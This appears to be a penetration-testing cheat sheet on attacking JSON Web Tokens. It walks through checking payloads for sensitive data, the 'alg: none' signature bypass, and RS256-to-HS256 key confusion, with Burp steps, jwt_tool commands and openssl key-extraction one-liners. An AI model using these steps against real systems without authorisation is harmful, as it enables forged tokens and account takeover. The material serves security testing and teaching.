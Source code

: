 1. **Check for sensitive data in the JWT**

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab
4. Check if any user info or any sensitive info is there in payload section.
5. Done!
```

2. \***\*None algorithm\*\***

```python
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Switch to JSON Web Token Tab or JOSEPH which also contains bypass
4. Change "alg:" to none "alg:none"
		{
		  "alg": "none",
		  "typ": "JWT"
		}
5. Change the Payload and edit the signature to empty
		Signature = ""
6. Forward the Request. Done!

Using JWT_Tool.
1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Use Below command to get different bypass payload to try , replace <JWT> with your JWT token.
		"python3 jwt_tool.py <JWT> -X a"
4. Use Different Payloads Generated by tool in your request, see if any of it works.
5. Change you Payload value to desire with the token that worked and Done!
```

3. \***\*Change algorithm from RS256 to HS256\*\***

```python
Note: This Attack will convert the workflow from Asymmetric to Symmetric encryption and now we can sign the new tokens with the same public key.

1. Turn Intercept on in burp and Login to Web App
2. Forward the request until you get JWT token
3. Get the Public key from the Application (pubkey.pem file) using below commands.
		"openssl s_client -connect example.com:443 2>&1 < /dev/null | sed -n '/-----BEGIN/,/-----END/p' > certificatechain.pem"
		"openssl x509 -pubkey -in certificatechain.pem -noout > pubkey.pem"
																OR
		"openssl s_client -connect zonksec.com:443 | openssl x509 -pubkey -noout"
4. Then use below command to generate JWT token.
		"python3 jwt_tool.py <JWT> -S hs256 -k pubkey.pem"
5. Use the generated token in the request and try changing payload.
6. Done, Forward the request.

* This will work when web app support both algorithm.
```
